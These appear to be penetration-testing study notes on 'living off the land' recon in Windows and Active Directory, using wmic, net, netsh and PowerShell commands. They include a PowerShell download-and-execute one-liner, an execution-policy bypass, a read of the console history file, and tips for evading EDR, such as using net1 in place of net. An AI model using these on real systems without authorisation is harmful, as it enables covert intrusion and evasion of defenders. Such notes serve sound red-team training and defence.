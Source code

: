 # Living Off the Land

## Introduction

* "Living off the land" can be <mark style="color:yellow;">defined as using tools native to Windows and AD</mark>
* This can also be a much more <mark style="color:yellow;">stealthy approach</mark>!

## Environment Commands for Host & Network Recon

```
hostname

[System.Environment]::OSVersion.Version

wmic qfe get Caption,Description,HotFixID,InstalledOn

ipconfig /all

set %USERDOMAIN%

set %logonserver%
```

## Harnessing PowerShell

### Quick Checks

```
Get-Module

Get-ExecutionPolicy -List

Set-ExecutionPolicy Bypass -Scope Process

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Get-ChildItem Env: | ft Key,Value

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Checking Defenses

### Firewall Checks

```
netsh advfirewall show allprofiles
```

### Windows Defender Check (from CMD.exe)

```
sc query windefend
```

### Get-MpComputerStatus

```
Get-MpComputerStatus
```

### Am I Alone?

* <mark style="color:yellow;">This is very useful for finding out if you are the only one logged in or not</mark>
* This is useful because your actions can be detected by others when moving covertly

```
qwinsta
```

## Network Information

```
arp -a 

ipconfig /all

route print

netsh advfirewall show state
```

## Windows Management Instrumentation (WMI)

* <mark style="color:yellow;">A.K.A. WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and to run administrative tasks on local and remote hosts</mark>

### WMI Checks

<mark style="color:yellow;">Prints the patch level and description of the Hotfixes applied:</mark>

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<mark style="color:yellow;">Displays basic host information to include any attributes within the list:</mark>

```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```

<mark style="color:yellow;">A listing of all processes on host:</mark>

```
wmic process list /format:list
```

<mark style="color:yellow;">Displays information about the Domain and Domain Controllers:</mark>

```
wmic ntdomain list /format:list
```

<mark style="color:yellow;">Displays information about all local accounts and any domain accounts that have logged into the device:</mark>

```
wmic useraccount list /format:list
```

<mark style="color:yellow;">Information about all local groups:</mark>

```
wmic group list /format:list
```

<mark style="color:yellow;">Dumps information about any system accounts that are being used as service accounts:</mark>

```
wmic sysaccount list /format:list
```

### WMI Cheat Sheet

{% embed url="https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4" %}

## Net Commands

* These commands can be extremely beneficial to use when attempting to enumerate information from the domain
* <mark style="color:yellow;">These commands can be used to query the local host as well as remote hosts</mark>

<mark style="color:yellow;">With Net, we can list information such as</mark>:&#x20;

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

<mark style="color:red;">WARNING</mark>: net.exe commands are often monitored by EDR solutions and can quickly reveal compromise!

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Net Commands Trick

* <mark style="color:yellow;">Use net1 instead of net to execute the same functions without setting off alarms to defenders!</mark>








